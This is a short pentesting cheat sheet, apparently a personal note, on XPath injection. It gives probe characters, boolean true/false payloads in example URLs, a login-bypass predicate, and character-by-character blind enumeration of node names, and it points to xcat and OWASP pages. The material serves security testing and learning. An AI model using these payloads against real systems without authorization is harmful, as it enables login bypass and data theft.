 # Simple checks for vulnerable XPATH

### Check if there is any behavioral difference in the responses
```
You could use ' (apostrophe) or , (Comma)
```

Apostrophe used as string terminator

Comma used to break intergers, althorugh any character would work

```
http://<website>/vulnpage.php?countryID=a'
```

### Blind bolean injection
You can check if there is a valid injection by checking with commands if there is no error messages. You can check whenether you get a valid response back or not depending on if it's TRUE or FALSE
```
## TRUE 
http://<website>/vulnpage.php?countryID=999999 or 1=1
http://<website>/vulnpage.php?countryID=999999 or "2" or "2"
## FALSE
http://<website>/vulnpage.php?countryID=999999 or 1=2
http://<website>/vulnpage.php?countryID=999999 or "1"="2"
## Double or (to bypass when not nothing username and password is required)
//<someNode>[username='' or "1"="1" or "1"="1" and password='']
## Password injection parameter.
//<someNode>[username='' and password='' or "1"="1"]
```

### Finding Root Node Identifier
Enumerate one character at a time with this technique.
If you get a **TRUE** condition you know the first character is *b*

```bash
' or substring(name(/*[1]),1,1)='a
' or substring(name(/*[1]),1,1)='b
' or substring(name(/*[1]),2,1)='a
```

After enumerating you get **users**
### Finding first child node name
Enumerate one character at a time with this technique.
If you get a **TRUE** condition you know the first character is *b*

```bash
' or substring(name(/users/*[1]),1,1)='a
' or substring(name(/users/*[1]),1,1)='b
' or substring(name(/users/*[1]),2,1)='b
```
# Enumerate Blind Bolean injections with xcat
You can see here how to use xcat (Tool for injection auto blind bolean to extract) 

[[Xcat]]

XPath Blind Explorer // https://code.google.com/archive/p/xpath-blind-explorer/

### Useful XPath statements
![[Pasted image 20220217090452.png]]

## Resources
https://wiki.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010)

https://owasp.org/www-community/attacks/Blind_XPath_Injection